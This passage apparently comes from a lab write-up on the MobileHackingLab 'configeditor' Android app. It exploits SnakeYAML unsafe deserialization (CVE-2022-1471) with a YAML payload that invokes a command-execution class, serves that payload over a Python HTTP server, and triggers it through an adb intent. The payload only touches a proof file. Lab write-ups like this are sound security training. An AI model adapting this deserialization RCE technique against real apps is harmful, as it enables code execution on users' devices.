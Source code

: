 
Looking at the main activity we get this import with a [CVE-2022-1471](https://snyk.io/blog/unsafe-deserialization-snakeyaml-java-cve-2022-1471/)

```java
import org.yaml.snakeyaml.Yaml;
```

Next let's craft a payload that will use the cve to perform a RCE with the `LegacyCommandUtil` class

```
rce: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.configeditor/proof.txt"]
```

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> bat rce.yml
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: rce.yml
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ rce: !!com.mobilehackinglab.configeditor.LegacyCommandUtil ["touch /data/data/com.mobilehackinglab.co
       │ nfigeditor/proof.txt"]
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────
```

Let's get our ip with the following commands to serve the file

```shell
pl4int3xt@archlinux ~> ip a s tap0
```

Let's start the python server to serve the file

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Next we use adb to launch the `MainActivity` with an implicit intent that gets the file we served with python

```shell
pl4int3xt@archlinux ~> adb shell am start -a android.intent.action.VIEW -d  "http://10.11.3.2:8000/rce.yml" -n
 com.mobilehackinglab.configeditor/.MainActivity
Starting: Intent { act=android.intent.action.VIEW dat=http://10.11.3.2:8000/... cmp=com.mobilehackinglab.configeditor/.MainActivity }
```

The file was served successfully

```shell
pl4int3xt@archlinux ~/D/mobile-hacking> python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.11.0.1 - - [03/Jul/2024 14:33:18] "GET /rce.yml HTTP/1.1" 200 -
```
